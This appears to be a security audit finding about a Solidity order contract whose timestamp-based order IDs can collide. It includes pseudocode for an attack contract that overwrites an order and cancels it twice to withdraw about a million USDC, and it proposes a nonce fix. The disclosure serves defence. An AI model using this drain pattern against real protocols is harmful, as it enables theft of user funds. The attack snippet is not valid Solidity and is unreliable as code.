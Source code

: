 Sunny Ultraviolet Boa

High

# same orderId for two orders weaponized to drain funds

### Summary

Time-sensitive transaction ordering vulnerability in `oracleLess.sol` enables order ID collision attacks, leading to double-spend opportunities through deterministic ID generation.

### Root Cause

```solidity
// Deterministic ID generation without block/nonce protection
function generateOrderId(address user) external returns (uint96) {
    return uint96(uint256(keccak256(abi.encodePacked(
        user,
        block.timestamp    // Vulnerable to same-block attacks
    ))));
}

// Order creation lacks uniqueness checks
function createOrder(...) external {
    uint96 orderId = MASTER.generateOrderId(msg.sender);
    orders[orderId] = Order({...});
    pendingOrderIds.push(orderId);  // Allows duplicates
}
```

### Internal pre-conditions

1. Deterministic order ID generation
2. No duplicate ID validation
3. Separate storage for orders and pending IDs


### Attack Path

```solidity
// Attack Contract
contract OrderCollisionAttack {
    function execute() external {
        // Transaction 1: Create minimal order
        oracleLess.createOrder(
            tokenIn: USDC,
            amountIn: 1,
            orderId: X  // Generated from block.timestamp
        );
        
        // Transaction 2: Create large order
        oracleLess.createOrder(
            tokenIn: USDC,
            amountIn: 1_000_000e6,
            orderId: X  // Same ID, overwrites first order
        );
        
        // Both orders in pendingOrderIds, but orders[X] holds larger amount
        oracleLess.cancelOrder(X);  // Withdraw 1M USDC
        oracleLess.cancelOrder(X);  // Withdraw another 1M USDC
    }
}
```

### Impact

- Deterministic double-spend vulnerability
- Protocol insolvency risk
- Broken order tracking system
- Unlimited fund extraction potential

### Mitigation

```solidity
contract OracleLess {
    mapping(address => uint256) public userNonces;
    
    function generateOrderId(address user) external returns (uint96) {
        uint256 nonce = userNonces[user]++;
        return uint96(uint256(keccak256(abi.encodePacked(
            user,
            block.timestamp,
            nonce           // Added nonce for uniqueness
        ))));
    }
    
    function createOrder(...) external {
        uint96 orderId = MASTER.generateOrderId(msg.sender);
        require(!orderExists[orderId], "Duplicate order ID");
        orderExists[orderId] = true;
        orders[orderId] = Order({...});
        pendingOrderIds.push(orderId);
    }
}
```